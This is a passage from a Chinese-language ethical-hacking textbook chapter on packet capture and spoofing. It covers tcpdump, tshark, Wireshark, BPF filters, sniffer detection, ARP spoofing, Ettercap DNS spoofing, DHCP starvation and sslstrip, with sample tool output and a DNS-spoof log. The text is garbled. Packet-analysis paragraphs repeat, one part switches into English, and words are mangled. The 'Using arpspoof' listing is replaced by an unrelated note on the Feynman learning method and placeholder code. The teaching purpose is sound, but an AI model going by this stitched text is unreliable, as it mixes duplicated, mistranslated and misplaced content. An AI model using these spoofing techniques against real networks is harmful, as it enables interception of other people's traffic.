当然，`tcpdump` 并不是唯一可以在命令行上捕获数据包的程序。Wireshark（我们稍后会查看）包含的 `tshark` 程序也可以用于捕获数据包。在下面的代码列表中，你会看到程序在没有任何参数的情况下运行。`tshark` 会提示以 root 身份运行可能危险。它这样提示是因为存在过往数据包捕获程序受到漏洞影响的案例，精心构造的数据包可能导致任意代码运行。这意味着攻击者可以使 `tshark` 被入侵并运行其提供的代码。除此之外，输出与 `tcpdump` 非常相似。最终，能够显示的数据量是有限的，而真正需要查看的数据则在捕获包的深层。

## 使用 `tshark` 捕获流量

```


### 使用 `tshark` 打印字段

仅仅因为存在一些默认项你可能想看到，并不意味着用户不能更精细地指定显示内容。`tshark` 在此方面远胜于 `tcpdump`，是使用 `tshark` 而非 `tcpdump` 的主要原因。下面的代码列表展示了如何选择想要显示的单个域。这里我们打印帧编号、IP 地址、IP 服务类型字段以及 IP 生存时间字段。

```
root@quiche:~# tshark -Tfields -e frame.number  -e ip.src -e ip.dst -e ip.tos -e ip.ttl

Running as user "root" and group "root". This could be dangerous.

tshark: Lua: Error during loading:

  [string "/usr/share/wireshark/init.lua"]:32: dofile has been disabled due to running Wireshark as superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as an unprivileged user.

Capturing on 'eth0'

 1    192.168.86.26    192.168.86.57        64

 2

 3    192.168.86.57    192.168.86.26        64

 4    192.168.86.26    192.168.86.57        64

 5    192.168.86.22    224.0.0.7        1

 6    192.168.86.57    192.168.86.26        64

 7    192.168.86.57    192.168.86.26        64

 8    192.168.86.57    192.168.86.26        64

 9    192.168.86.26    192.168.86.57        64

 10    192.168.86.26    192.168.86.57        64

 11    192.168.86.26    192.168.86.57        64

 12

 13

 14    192.168.86.57    192.168.86.26        64

 15    192.168.86.57    192.168.86.26        64

 16    192.168.86.57    192.168.86.26        64

 17    192.168.86.57    192.168.86.26        64

 18    192.168.86.57    192.168.86.26        64

 19    192.168.86.57    192.168.86.26        64

 20    192.168.86.57    192.168.86.26        64

 21    192.168.86.57    192.168.86.26        64
```


有数百个字段可供使用。从前面的示例可以看出，你可以通过 `‑e` 参数继续添加字段。其余大多数命令行参数与 `tcpdump` 使用的参数相同。你可以设置快照长度、选择网络接口，并且也可以写入文件。这些参数与前面 `tcpdump` 示例中使用的参数相同。

程序 `tshark` 与 Wireshark 包一起安装。无论你在哪个平台上安装 Wireshark，都会默认安装 `tshark` 以及其他命令行程序。然而，Windows 上没有 `tcpdump`。你需要找到 `windump` 并进行安装，这是 `tcpdump` 在 Windows 平台上的移植版。

### Wireshark

Wireshark 是一个基于 GUI 的数据包捕获程序。正如前面所述，它附带了一些命令行程序。使用 Wireshark 有很多优势。首先，它提供了轻松查看数据包的方式，并能在完整的捕获中自由浏览。与 `tcpdump` 和 `tshark` 不同，Wireshark 让我们看到完整的网络协议栈，技术上说我们捕获的是帧而非数据包。Wireshark 还能够轻松滚动浏览所有捕获的帧列表。Figure 9.1 展示了一个捕获会话的帧列表。与 `tcpdump` 类似，这里显示的是每个帧的摘要。这同样是 `tcpdump` 所提供的短摘要，但 Wireshark 能从数据包和通信流中推断出更详细的信息。Wireshark 提供的信息是它可以从数据包和通信流中推断出的。


**FIGURE 9.1** Wireshark frames list

列标题（可配置）包括帧编号、相对于捕获的时间戳、源地址、目的地址、协议、长度和信息。


**FIGURE 9.2** Protocol details


**FIGURE 9.3** TLS information

加密在数据包捕获中始终是个问题。加密的目的在于只有发送方和接收方才能阅读消息。会话密钥（如 TLS 加密网页消息使用的密钥）在会话建立时即派生。通过使用证书（包含公钥和私钥）来实现，这些密钥用于在派生对称密钥的同时共享信息。要解密任何信息，你需要会话密钥，这意味着你需要证书信息，以便能够“中间人”位置获取密钥。

Wireshark 具备使用 RSA（Rivest、Shamir、Adleman，算法创始人姓名）密钥解密 TLS 加密消息的能力。Figure 9.4 展示了偏好视图，你可以在此添加 RSA 密钥。这可能让你能够解密 TLS 消息。你也可以看到输入预共享密钥的位置。在某些情况下，你可能会看到使用预共享密钥的加密，这基本上是双方已经事先知道的密码。该密钥在双方之间提前共享（pre‑shared）。


**FIGURE 9.4** RSA keys preferences

你所看到的全部内容均可用于无论是打开已保存并以 Wireshark 打开的文件，还是直接进行的捕获。Wireshark 可以打开任何由 `tcpdump` 或 `tshark` 编写的文件，当然也能保存自己的捕获。要在 Wireshark 中创建捕获，有多种途径可供选择。启动 Wireshark 时，你会看到主界面，如 Figure 9.5 所示。从那里，你可以点击工具栏中的鲨鱼标志，直接在默认或主接口上开始捕获。


**FIGURE 9.5** Wireshark home screen

如果你想从非默认接口进行捕获，只需在主界面的接口列表中选择一个接口，双击即可开始捕获。如果不确定，可以查看第二列中的小图表，该图表显示各接口的流量情况及随时间变化的量。很可能没有必要捕获那些没有流量通过的接口。

Wireshark 还支持过滤。你可以在捕获时设置过滤器，如 Figure 9.5 中“Capture … using this filter”所示，在编辑框中输入过滤表达式，以限制 Wireshark 捕获的内容。捕获完成后，你也可以使用显示过滤器。这会保留所有帧，但仅显示符合你设定过滤条件的帧。Wireshark 在操作时会提供提示。Figure 9.6 展示了一个窗口，里面根据你已输入的内容给出建议，这使得创建有效的过滤器更加容易。


**FIGURE 9.6** Capture filter in Wireshark

Figure 9.6 显示捕获过滤器，但 Wireshark 也会在构建显示过滤器时提供帮助，并实时为编辑框着色。当你输入合法的过滤语法时，框会变为绿色；在语法合法之前，框保持红色。对于显示过滤器，你可以对 Wireshark 理解的任意协议字段进行过滤。例如，你可以筛选出 IP TTL 为 13 的所有数据包。Wireshark 的过滤功能非常细粒度，能够让你在数十万甚至数百万帧的捕获中快速定位目标，大大简化工作。

### Berkeley Packet Filter

我们迄今所观察的数据包捕获工具均可使用 Berkeley Packet Filter（BPF）。BPF 是系统数据链路层的接口，广泛用于 `tcpdump`、`tshark` 和 Wireshark 等系统和应用。编写 BPF 由 `host`、`ether`、`net`、`proto` 等原语组成，并可使用 `src`、`dst` 等修饰符对每个原语进行修饰。这意味着你可以基于 `src host` 或 `dst host` 进行过滤。同时，你可以通过 `ip4` 和 `ip6` 修饰符过滤 IPv4 或 IPv6。将过滤器追加到 `tcpdump` 命令行后，`tcpdump` 会只捕获并显示通过该过滤器的数据包。

例如，前文提到的 `tcpdump` 示例实际上是在一个 Linux 系统上（我有一个简单的提示符，说实话）通过 SSH 连接到该系统时捕获的。当你通过 SSH 连接到系统并运行数据包捕获时，绝大多数数据包都是 SSH 数据包。你真正关心的流量会被 SSH 流量淹没。想一想：你运行 `tcpdump` 后，它会向你发送一个消息表明正在运行，`tcpdump` 捕获一个数据包并将其显示。显示时，SSH 数据包中包含要发送给你的显示文本，这段文本被捕获并发送给你。如此往复。要捕获有意义的流量而非全部 SSH 包，实际使用的命令应为 `tcpdump not port 22`。

你可以看到 `tcpdump` 的输出，没有任何过滤，`tcpdump` 通过 SSH 会话运行。这是一个小样本。你会发现，SSH 和 DNS 请求是发送的消息，因为每个捕获的数据包在显示之前都必须将 IP 地址解析为主机名。你可以循环这个过程很久。在杀死捕获的两秒钟内，就捕获了超过 4,000 个数据包。

# 运行 `tcpdump` 而不使用过滤

```
root@quiche:~# tcpdump

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode

listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

18:32:07.835797 IP quiche.lan.ssh> yazpistachio.lan.64631: Flags [P.], seq 3616191731:3616191919, ack 453098787, win 315, options [nop,nop,TS val 16893480 ecr 1259709774], length 188

18:32:07.836406 IP quiche.lan.60511> testwifi.here.domain: 58726+ PTR? 26.86.168.192.in-addr.arpa. (44)

18:32:07.838352 IP testwifi.here.domain> quiche.lan.60511: 58726* 1/0/0 PTR yazpistachio.lan. (100)

18:32:07.838530 IP quiche.lan.60657> testwifi.here.domain: 4670+ PTR? 57.86.168.192.in-addr.arpa. (44)

18:32:07.840275 IP testwifi.here.domain> quiche.lan.60657: 4670* 1/0/0 PTR quiche.lan. (94)

18:32:07.840505 IP quiche.lan.ssh> yazpistachio.lan.64631: Flags [P.], seq 188:408, ack 1, win 315, options [nop,nop,TS val 16893485 ecr 1259709774], length 220
```

你可以组合不同的过滤原语。例如，下面的代码片段展示了如何捕获来自或发送到主机 192.168.86.1 的 TCP 数据包。为了使复杂过滤更清晰，可以使用括号来隔离参数。你会注意到这里使用了反斜杠，以确保 Linux 终端不会尝试解释它们，它们会作为括号传递给 `tcpdump`。

**使用 BPF 的复杂过滤**

```
root@quiche:~# tcpdump tcp and \(host 192.168.86.1\)

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode

listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

18:41:33.287262 IP quiche.lan.43790> testwifi.here.http: Flags [S], seq 674275431, win 29200, options [mss 1460,sackOK,TS val 2412954967 ecr 0,nop,wscale 7], length 0
```


```
 18:41:33.288206 IP testwifi.here.http> quiche.lan.43790: Flags [S.], seq 239316039, ack 674275432, win 28960, options [mss 1460,sackOK,TS val 235265600 ecr 2412954967,nop,wscale 7], length 0

 18:41:33.288269 IP quiche.lan.43790> testwifi.here.http: Flags [.], ack 1, win 229, options [nop,nop,TS val 2412954968 ecr 235265600], length 0

 18:41:37.111956 IP quiche.lan.43790> testwifi.here.http: Flags [F.], seq 1, ack 1, win 229, options [nop,nop,TS val 2412958792 ecr 235265600], length 0

 18:41:37.113495 IP testwifi.here.http> quiche.lan.43790: Flags [F.], seq 1, ack 2, win 227, options [nop,nop,TS val 235265982 ecr 2412958792], length 0

 18:41:37.113515 IP quiche.lan.43790> testwifi.here.http: Flags [.], ack 2, win 229, options [nop,nop,TS val 2412958793 ecr 235265982], length 0
```

请记住，当你在命令行上使用 `tcpdump` 进行 BPF 时，你使用的是捕获过滤器。这意味着你不会看到那些不经过过滤的数据包。如果你将捕获写入文件，同样只会保存经过过滤的数据包。如果你计划在后续对捕获文件进行分析，请确保以后不需要那些被过滤掉的数据包。在应用过滤前，请仔细考虑所使用的过滤条件。

### 端口镜像/桥接

早期的网络使用简单集线器，它们只是电气重复器，没有智能功能，轻松获取网络上的全部流量。随后出现了交换机，这些设备通过第二层过滤提升网络的性能和安全性。交换机知道哪些系统连接在何端口。当帧的目的 MAC 地址进入交换机时，它会查找该 MAC 地址对应的端口并将帧只发送到该端口的目标系统。这样，网络中其他系统就不会看到该帧经过它们的网络接口。如果你想捕获不是经由你的网络接口的流量，这会使捕获变得更加困难。

一种绕过方法是获得对交换机的访问权限，从而配置端口镜像。它的作用是把通过一个端口的所有流量镜像到另一个端口。你可以把多个端口镜像到同一个端口，以便监控多个系统的流量。如果你只能监控单个端口，可以考虑把连接到网关/路由设备的端口镜像，这样你就能看到进入和离开网络的流量，这可能比仅监控单个端点获得更多关于敏感信息的访问。

在 Cisco 设备上，配置端口镜像的功能称为 Switched Port Analyzer (SPAN)。当你设置端口镜像时，你实际上是在配置一个 SPAN 端口，因而这段过程常被称为 *port spanning*。其他交换机厂商可能使用不同的术语来描述这一过程。

镜像端口时需要考虑的一个因素是 **oversubscription**（过度订阅）。如果你有五个 1 Gbps 的交换机端口并且把它们全部镜像到一个 1 Gbps 的端口，就会出现过度订阅，导致接收端口可能丢弃数据包，捕获到的流量会变得随机。

### 侦测 Sniffer

当 sniffer 在单个系统上运行并收集信息时，虽然看起来是被动活动，但仍有方法可以检测到接口是否处于混杂模式。最简单的方法是在拥有该接口的系统上查看 `ifconfig` 的输出。在 macOS 系统上运行 `tcpdump` 时，会看到类似下面的 `ifconfig` 输出：

```
en0: flags=8963<UP,BROADCAST,SMART,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1500

        options=50b<RXCSUM,TXCSUM,VLAN_HWTAGGING,AV,CHANNEL_IO>

        ether 14:98:77:31:b2:33

        inet6 fe80::10c6:713a:e86f:556d%en0 prefixlen 64 secured scopeid 0x7

        inet 192.168.1.144 netmask 0xffffff00 broadcast 192.168.1.255

        inet6 2601:18d:8b7f:e33a::52 prefixlen 64 dynamic

        inet6 fd23:5d5f:cd75:40d2:87:38bc:9448:3407 prefixlen 64 autoconf secured

        nd6 options=201<PERFORMNUD,DAD>

        media: autoselect (1000baseT <full-duplex,flow-control,energy-efficient-ethernet)

        status: active
```

如果查看标志位所在的行，会看到 **PROMISC**，这表明接口处于混杂模式，即不进行 MAC 地址过滤。所有经过该接口的数据包都会被发送给操作系统。遗憾的是，这并不适用于所有操作系统。在最近的 Kali Linux 安装中，运行 `tcpdump` 时，`ifconfig` 显示的内容如下：

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500

        inet 192.168.1.128  netmask 255.255.255.0  broadcast 192.168.1.255

        inet6 fd23:5d5f:cd75:40d2:8922:b227:ed41:59a1  prefixlen 64  scopeid 0x0<global>

        inet6 fd23:5d5f:cd75:40d2:20c:29ff:fee9:f642  prefixlen 64  scopeid 0x0<global>

        inet6 fe80::20c:29ff:fee9:f642  prefixlen 64  scopeid 0x20<link>

        ether 00:0c:29:e9:f6:42  txqueuelen 1000  (Ethernet)

        RX packets 9145  bytes 6754039 (6.4 MiB)

        RX errors 0  dropped 0  overruns 0  frame 0

        TX packets 4214  bytes 913545 (892.1 KiB)

        TX errors 0  dropped 0 overruns 0 carrier 0  collisions 0
```

-   [新的获取接口地址信息的方式](https://example.org/ip_a) 也不能显示接口是否处于混 promiscuous 模式。对获取接口链路状态的 `ip link` 也是如此。当然，Windows 上的 `ipconfig` 与 Unix 类系统上的 `ipconfig` 功能略有不同。它仅提供 IP 配置，而非接口配置，因此同样看不到接口是否处于混 promiscuous 模式。

-   你不必在机器上才能判断设备是否处于混 promiscuous 模式，但需要能够访问本地网络以某种方式查看数据包。网络管理员或负责 DNS 服务器的系统管理员可能会识别出正在抓包的设备。像 Wireshark 和 `tcpdump` 这样的工具默认会进行主机名解析，因此每个新出现的 IP 地址都会在运行数据包捕获的操作系统上触发一次 DNS 查询。这并不保证有人真的在设备上捕获数据包，但它可能是一个有用的指示。

-   当设备处于混 promiscuous 模式时，所有到达接口的流量都会转发给操作系统。这可能导致异常或意外的行为。例如，如果你使用 packETH 或其他工具构造数据包，并向你怀疑的捕获设备发送 ICMP 回显请求，你会设置正确的 IP 地址但错误的 MAC 地址。如果该设备的接口不在混 promiscuous 模式下，它不会收到该消息；若收到，则会发现 IP 地址正确并做出响应。但在交换环境中，该消息根本到达不了设备，需要像 ARP 欺骗这样的攻击技术才能让它到达。因此，这种技术在交换环境下可能不够可靠。

-   最后，你可以观察到 ARP 欺骗等欺骗攻击。入侵检测系统以及其他网络监控工具（如查看交换机的 packETH）也会注意到这种情况。如果在网络中看到大量 ARP 报文，尤其是 ARP 回复而没有对应的请求，则可以确定正在发生 ARP 欺骗攻击。这可能表明有人在网络上捕获数据包。

### 数据包分析

最终，数据包分析可能是你最初捕获数据包的主要原因。获取数据包后，你会希望更深入地检查它们，包括过滤、跟随通信流以及查看统计信息和其他可视化内容。这里 Wireshark 表现出色，能够帮助你完成这些任务。正如前面所述，Wireshark 完全理解协议，这意味着它不仅能够解码协议，还能指出可能的协议违规之处。还有其他许多地方，Wireshark 能让阅读数据包捕获内容更加轻松。

Wireshark 会自动进行计算，让你的工作更轻松。当 TCP 连接建立时，会生成序列号，为了防止欺骗，TCP 连接的初始序列号应为随机。序列号为 4 字节，因此数值很大。序列号根据传输的字节数递增。如果你自己手动进行此加法运算，需要花费时间跟踪序列号和确认号。相反，Wireshark 为你提供相对序列号，使其更易于使用。根据 Wireshark，第一个序列号为 1。相对序列号随后按预期递增。Figure 9.8 展示了带有相对序列号的 TCP 头部。

属于同一对话的数据包（帧）可能在数据包捕获中分散排列。如果在对话中有大量帧在中间穿插，你可能会发现很难在对话之间切换。Wireshark 允许你跟随流。可以通过右键单击属于该对话的帧来打开上下文菜单，选择“Follow TCP Stream”（例如），Wireshark 会为你创建显示过滤器，仅显示属于该对话的帧。此外，Wireshark 还会从负载中提取数据并将其呈现给你。例如，在 HTTP 对话中，你会看到客户端和服务器之间的 HTTP 消息文本。Figure 9.9 展示了一个弹出窗口，显示 HTTP 对话的文本。客户端消息背景为粉红色、文字为红色，服务器消息为蓝色，背景为淡紫色或淡紫红色。底部会显示“Save and show data as”以及选中“ASCII”。还有其他选项，包括原始数据、C 语言数组和 YAML。


**FIGURE 9.8** 相对序列号

Wireshark 还具备展示数据包捕获统计信息的强大功能。Statistics 菜单包含众多选项，其中 Protocol Hierarchy（协议层次结构）是其中之一。它按协议之间的关联关系展示捕获中识别出的所有协议的层次结构。例如，如 Figure 9.10 所示，所有帧都是以 Ethernet 为基础的，这些帧全部是 IP 数据包。在这些 Ethernet 帧中，5.5% 为 UDP 数据报。SSDP、MDNS 和 DNS 都是利用 UDP 作为传输层协议的协议。大多数捕获的数据包是 TCP 段，其中大部分是 SSL，实际上它们都是 TLS（SSL 的后继协议）。

另一个值得关注的 Statistics 菜单项是 Conversations 视图。它显示数据包捕获中所有端点之间的对话。每一层的对话集合不同，因为层 2 的对话与 IP 地址对话不同。任何从本地网络向外部传出的 IP 对话都会在本地网关上产生层 2 对话。这意味着你可能会看到的以太网对话少于 IP 对话。此外，TCP 对话与 IP 对话也不同，可能会有多个端口对之间的多组对话。这在本地浏览器向 web 服务器建立多个连接以请求图像、HTML 页面和其他资源时尤为常见，这些资源共同参与页面渲染。Figure 9.11 展示了数据包捕获中的 Conversations 统计信息。


**FIGURE 9.9**

最后一个要查看的功能在“分析”菜单中。Wireshark 在接收到帧和数据包后会对其进行分析。我们之前通过查看帧列表和颜色来观察这些分析。此外，当我们查看协议解码时，可以看到 Wireshark 识别出的信息在方括号中出现错误的情况。你不需要浏览整个数据包捕获文件，逐个查找错误。相反，前往“分析”菜单，选择“专家信息”，即可查看 Wireshark 标记为问题的所有帧。如图 9.12 所示：


**FIGURE 9.10**


**FIGURE 9.11**

Wireshark 会自动完成那些会让你感到麻烦的计算。例如，当 TCP 连接建立时，会生成序列号，为了防止欺骗，TCP 连接的初始序列号应为随机。序列号为 4 字节，数值很大。序列号根据传输的字节数递增。如果你自己手动进行此加法运算，需要花费时间跟踪序列号和确认号。相反，Wireshark 为你提供相对序列号，使其更易于使用。根据 Wireshark，第一个序列号为 1。相对序列号随后按预期递增。Figure 9.8 展示了带有相对序列号的 TCP 头部。

Packets（帧）如果属于同一对话，可能会在捕获中分散排列。如果在对话之间有大量帧穿插，你可能会发现很难在对话之间切换。Wireshark 允许你跟随流。可以通过右键单击属于该对话的帧来打开上下文菜单，选择“Follow TCP Stream”（例如），Wireshark 会为你创建显示过滤器，仅显示属于该对话的帧。此外，Wireshark 还会从负载中提取数据并将其呈现给你。例如，在 HTTP 对话中，你会看到客户端和服务器之间的 HTTP 消息文本。Figure 9.9 展示了一个弹出窗口，显示 HTTP 对话的文本。客户端消息背景为粉红色、文字为红色，服务器消息为蓝色，背景为淡紫色或淡紫红色。底部会显示“Save and show data as”以及选中“ASCII”。还有其他选项，包括原始数据、C 语言数组和 YAML。


**FIGURE 9.8** 相对序列号

Wireshark 还具备展示数据包捕获统计信息的强大功能。Statistics 菜单包含众多选项，其中 Protocol Hierarchy（协议层次结构）是其中之一。它按协议之间的关联关系展示捕获中识别出的所有协议的层次结构。例如，如 Figure 9.10 所示，所有帧都是以 Ethernet 为基础的，这些帧全部是 IP 数据包。在这些 Ethernet 帧中，5.5% 为 UDP 数据报。SSDP、MDNS 和 DNS 都是利用 UDP 作为传输层协议的协议。大多数捕获的数据包是 TCP 段，其中大部分是 SSL，实际上它们都是 TLS（SSL 的后继协议）。

另一个值得关注的 Statistics 菜单项是 Conversations 视图。它显示数据包捕获中所有端点之间的对话。每一层的对话集合不同，因为层 2 的对话与 IP 地址对话不同。任何从本地网络向外部传出的 IP 对话都会在本地网关上产生层 2 对话。这意味着你可能会看到的以太网对话少于 IP 对话。此外，TCP 对话与 IP 对话也不同，可能会有多个端口对之间的多组对话。这在本地浏览器向 web 服务器建立多个连接以请求图像、HTML 页面和其他资源时尤为常见，这些资源共同参与页面渲染。Figure 9.11 展示了数据包捕获中的 Conversations 统计信息。


**FIGURE 9.9**

最后一个要查看的功能在“分析”菜单中。Wireshark 在接收到帧和数据包后会对其进行分析。我们之前通过查看帧列表和颜色来观察这些分析。此外，当我们查看协议解码时，可以看到 Wireshark 识别出的信息在方括号中出现错误的情况。你不需要浏览整个数据包捕获文件，逐个查找错误。相反，前往“分析”菜单，选择“专家信息”，即可查看 Wireshark 标记为问题的所有帧。如图 9.12 所示：


**FIGURE 9.10**


**FIGURE 9.11**

## Spoofing Attacks

你可能不必只捕获发往你系统的数据包，或者通过重新配置交换机才能接收到的数据包。还有其他方式可以让消息到达你。可以通过使用不同类型的 Spoofing 攻击实现。Spoofing 攻击是指假装自己是一个你不是的系统。你可以从不同层开始进行这种攻击，从第 2 层开始。你也可以在更高层进行 Spoofing，利用 DNS 让系统将流量发送到你想要的系统。Spoofing 攻击让你能够位于两个端点之间的对话中。

这引出了一个需要记住的问题。如果你在进行 Spoofing 攻击，意味着对话的至少一端可能没有到达正确的终点。如果一切看起来不正常，别人就会开始怀疑。这意味着你需要确保对话完整。如果有人怀疑有问题，他们可能会寻找原因，这可能导致你被识别。显然，如果你在进行 Spoofing 攻击，你不想被识别并被捕获。正如以往一样，你需要确保使用这些能力是为了行善而不是作恶。

### ARP Spoofing


**The Address Resolution Protocol (ARP) has two stages.** The first is the request, where a system knows an IP address but doesn't know the corresponding MAC address. It sends an ARP request asking for the system with the IP address to respond with its MAC address. The response is the system replying, indicating its MAC address to the requestor. There is nothing to authenticate that request, though. In theory, anyone could respond to that request with their MAC address to get the requesting system to send the message to the attacker's/spoofer's address. We could make it even easier by simply not waiting for the request to begin with and just sending the reply.

To be efficient, systems will take any ARP responses, even if they didn't ask, and cache the mapping. This keeps them from having to ask for the MAC address should they ever need it. This is a feature we can take advantage of. We could just send out ARP responses, mapping whatever IP address on the network we want to our MAC address. This would get all systems on the local network sending messages to us, as our address is in their ARP cache. The process of just sending out ARP responses without a corresponding ARP request is called `gratuitous ARP`, meaning it's an ARP message that wasn't asked for.

One of the problems we have is the length of time ARP entries are cached for. On Linux systems, the default cache length is 60 seconds. You can check it from an entry in the `/proc` pseudo file system, as you can see in the following code listing. You could also change the behavior by replacing the 60 with another value. On Windows systems, the cache time is different. Microsoft opted to follow RFC 4861, which applies to IPv6, for the IPv4 implementation. Starting with Windows Vista, Microsoft has a base time of 30,000 milliseconds, which is multiplied by a random value between .5 and 1.5 to get the cache duration. This means it's different from one system to another and also from one boot to another.

## ARP Cache Duration on Linux

```
cat /proc/sys/net/ipv4/neigh/default/gc_stale_time
60
```

Because the cache can time out quickly, we have to keep sending out our gratuitous ARP responses. Obviously, this is something better done programmatically rather than manually. This is especially true since there is another problem. When we redirect messages to our system, we really need to forward them back out onto the network with the correct MAC address in the destination field. Otherwise, conversations don't happen. A TCP connection never completes because the SYN or the SYN/ACK never reaches the appropriate destination system. Instead, it is sent to our system where it dead‑ends unless we do something. This requires turning on forwarding so the message we are hijacking can be forwarded back out the same interface to get to its intended destination.

There are a few programs that can be used to handle ARP spoofing. One of them, `arpspoof`, has been around for a long time now. It was written by Dug Song, who also wrote a program called `fragroute`, which is useful in its own way. Using `arpspoof`, we can inject ourselves in between two systems on the network. We can tell `arpspoof` which two IP addresses we want to pretend to be. It takes care of the rest for us. In the following code listing, you can see a run of `arpspoof` where I've selected the default gateway on my network to be the one I spoof. This means I get messages that are destined for the default gateway, so anything that's going off‑net gets sent to the system running `arpspoof`. You'll see the gratuitous ARP responses being sent. They get sent out every few seconds to ensure that no ARP cache entries age out. On some Linux systems, such as Kali Linux, you will need to install `arpspoof` along with other sniffing tools in a package called `dsniff`.

## Using `arpspoof`

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者`Richard Feynman`。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

一旦 DNS 就位后，我们需要回去配置 Ettercap 来拦截流量。这与之前的步骤相同。我们需要嗅探流量，以便 Ettercap 能够看到请求。我们还需要使用 ARP 欺骗攻击，将网络上的流量引向我们的系统，从而能够看到 DNS 请求。一旦进入 ARP 欺骗阶段，就可以在插件菜单中选择“管理插件”。从那里，可以启用 DNS 欺骗插件。这会自动加载之前编辑的 `etter.dns` 文件。

在下面的代码块中，你会看到 Ettercap 为任何已捕获的请求所写出的日志。虽然前面的代码块中的条目是添加的，但文件中没有删除任何默认条目。Microsoft 的域名是被重定向的主机之一。在这种情况下，它并不是被重定向到我们的本地系统，而是被重定向到互联网上的另一个系统。由于我们使用的是 DNS，主机不必在本地网络内。DNS 会返回一个 IP 地址，请求系统会尝试连接到该 IP。唯一的原因我们需要本地访问是为了捕获请求。一旦请求被捕获并响应，所有流量都属于第 3 层及以上。

## Ettercap DNS Spoof Log

```
SEND L3 ERROR: 246 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 83 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 52 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 52 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 52 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
SEND L3 ERROR: 245 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
DHCP: [192.168.86.1] ACK : 192.168.86.43 255.255.255.0 GW 192.168.86.1 DNS 192.168.86.1 "lan"
dns_spoof: A [browser.pipe.aria.microsoft.com] spoofed to [107.170.40.56]
```

之所以这能工作，即使 DNS 请求仍然发送到合法的 DNS 服务器并收到响应，这是因为 DNS 使用 UDP，所以不存在连接。UDP 请求发出后，UDP 响应返回。系统可能会发送多个请求，因为 UDP 没有保证请求一定能到达 DNS 服务器。第一个收到的响应将被系统使用。由于 Ettercap 系统在本地网络，而 DNS 服务器很可能不在本地，Ettercap 系统返回的 DNS 响应应当是第一个到达的。随后发送到请求系统的响应将被忽略。到那时，`etter.dns` 中配置的地址已经被发送回请求系统，并在该系统的 DNS 缓存中填充。

## DHCP 星 vation 攻击

另一种获取终端用户信息的技术叫做 DHCP 星 vation 攻击。该攻击针对动态分配给终端的 IPv4 地址。一次 DHCP 星 vation 攻击可能产生两种恶意结果，如图 Figure 9.15 所示。在 DHCP 星 vation 攻击中，攻击者向 DHCP 服务器发送大量的 DHCPDISCOVER 消息。这些消息发送到广播地址 255.255.255.255。DHCP 服务器会向客户端返回报价。在此情形下，服务器会持续发送报价，保留该客户端的 IP 地址，期待一个永远不会到来的 ACK。当 DHCP 服务器耗尽可分配的 IP 地址时，就会出现拒绝服务（DoS）攻击，导致合法终端无法获取 IP 地址。

此时，攻击者可以创建一个新的 DHCP 服务器。请记住，DHCP 对于新请求使用广播地址，因此不需要冒充特定的 IP 地址。除了 IP 地址，DHCP 服务器还可以提供其他 IP 配置信息，例如欺骗的 DNS 服务器，这可能会向请求提供恶意地址，确保用户访问攻击者控制的网站。攻击者也可以提供本地受控系统的默认网关，这样所有流量都会先到达该系统，从而被观察后再转发到真实网关。这需要一定的额外工作，将受控设备转变为相当于路由器的角色，但这是可行的，并且与 ARP 欺骗攻击的工作方式类似。


**FIGURE 9.15** DHCP starvation attack

## `sslstrip`

加密消息在捕获流量时带来困难。加密的设计初衷是端到端的，意味着中间不应该有介入。任何中间介入都违背了大多数加密方案的端到端预期。尽管如此，作为伦理黑客，我们的本性是尝试绕过规则、破坏规则。有方法可以尝试破解加密协议。当然，这在 SSL 仍被广泛使用时要容易得多。SSL 存在多个版本的漏洞，早在 TLS 被引入以取代 SSL 后，TLS 的早期版本也存在使其易受破解的漏洞。

程序 `sslstrip` 被开发用于捕获 SSL 消息并去除其加密。该程序由 Moxie Marlinspike 在 2009 年的 Black Hat 会议上发表的演示中开发。当时 SSL 仍然普遍，因此它很可能能够工作。如今，成功的可能性较低，因为理想情况下，系统管理员会移除像 SSL 和 TLS 1.0、1.1 这样的旧加密机制。如果服务器仅支持 TLS 1.2 及以上版本，`sslstrip` 将不起作用，因为使其能够工作的漏洞已被修复。这也是为何在如 Kali Linux 等发行版中默认不安装它。

你可以将 `sslstrip` 作为独立程序使用。基本上，`sslstrip` 充当透明代理，位于服务器和客户端之间。它可以在某些情况下将链接从 HTTPS 改为 HTTP。它还使用其他技术，使得连接看起来是加密的，但实际上并不是。作为独立程序，`sslstrip` 利用了之前提到的 `arpspoof`。不过，也可以将 `sslstrip` 作为插件在 Ettercap 中运行。


